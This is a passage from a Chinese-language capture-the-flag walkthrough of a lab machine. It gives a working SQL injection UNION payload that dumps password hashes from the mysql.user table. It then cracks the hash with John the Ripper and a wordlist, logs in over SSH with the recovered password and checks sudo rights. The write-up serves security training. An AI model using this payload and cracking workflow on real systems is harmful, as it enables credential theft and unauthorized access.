 尝试破解 Bludit`admin`用户的密码哈希也无济于事，所以让我们尝试从`mysql.user`数据库中获取密码哈希。

```
a" UNION SELECT group_concat(user),group_concat(password),group_concat(authentication_string),4 FROM mysql.user -- -
```

![image-20220906211239300](../../.gitbook/assets/image-20220906211239300.png)

我们在数据库中看到一个`elliot`用户，以及他们在`authentication_string`列下的哈希密码。这可能和`elliot`我们在阅读时看到的一样`/etc/passwd`。让我们尝试破解它。

```
┌──(root💀kali)-[/tmp]
└─# cat hash 
*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# john --wordlist:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 AVX 4x])
No password hashes left to crack (see FAQ)
                                                                                                                                                                                                                                             
┌──(root💀kali)-[/tmp]
└─# john --show hash                                     
?:elliot123

1 password hash cracked, 0 left

```

ssh登录

```
┌──(root💀kali)-[/tmp]
└─# ssh elliot@192.168.2.134                                                                                                                                                                                                           
The authenticity of host '192.168.2.134 (192.168.2.134)' can't be established.
ECDSA key fingerprint is SHA256:vGWrdjBS8NkKS9/tOKtz2EdskG/Td1ggoalsSMMRwLQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.2.134' (ECDSA) to the list of known hosts.
elliot@192.168.2.134's password: 
Last login: Wed Aug 31 10:00:29 1994 from �Y�IWf��3����H2/d`/�%▒�p�R�v�e�ZR
����
    \f]��1*
           ����l#
[elliot@insanityhosting ~]$ id
uid=1003(elliot) gid=1003(elliot) groups=1003(elliot)
[elliot@insanityhosting ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for elliot: 
Sorry, user elliot may not run sudo on insanityhosting.

```
